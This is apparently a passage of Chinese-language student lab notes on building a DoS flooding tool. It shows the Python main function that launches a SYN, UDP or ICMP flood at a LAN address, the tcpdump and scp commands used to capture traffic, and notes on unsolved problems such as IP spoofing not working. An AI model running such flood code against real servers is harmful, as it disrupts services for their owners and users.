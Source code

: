 #### 主函数

```python
if __name__=="__main__":
    # init Dos tools
    DoS_obj = DoS()
    # Target IP Address
    # dstaddr = "192.168.43.77"
    dstaddr = "192.168.43.21"
    # Target IP Port(useless when the type with icmp)
    dstport = 21
    # DoS type, which means which type of flood
    # options: syn, udp, icmp
    type = 'syn'
    # DO THE ATTACK
    DoS_obj.DoS_attack(dstaddr, dstport, type)
```

## 服务器抓包

```shell
tcpdump -i eth0 -w log.pcap
```

tcpdump命令抓包后，使用scp下载，后使用Wireshark本地查看。

```shell
scp root@MYIPADDR:/cncourse/20201028/log.pcap /Users/reneelin/Downloads
```

# 需要解决的问题

## 随机IP源地址无效

在测试中间包生成过程中，可以正常输出随机IP地址，但无法在真正发送的包中查看此伪装IP，只会显示本机在局域网攻击中的IP地址，无法起到伪装的作用。

不知是操作系统限制还是网络安全限制，或者是代码问题。

## UDP包长度问题

UDP包的长度进行了设置，为8个字节的Header加上数据长度，但是Wireshark获取的包的长度永远为1。

## 无法尝试是否真正能够进行初级DoS攻击

由于DoS攻击，特别是常用手段的DoS攻击已经被防御得比较健全，对于中小型服务器来说，是完全达不到攻击效果的，因而也没有合适的实验机可供使用，不知道实际效果如何。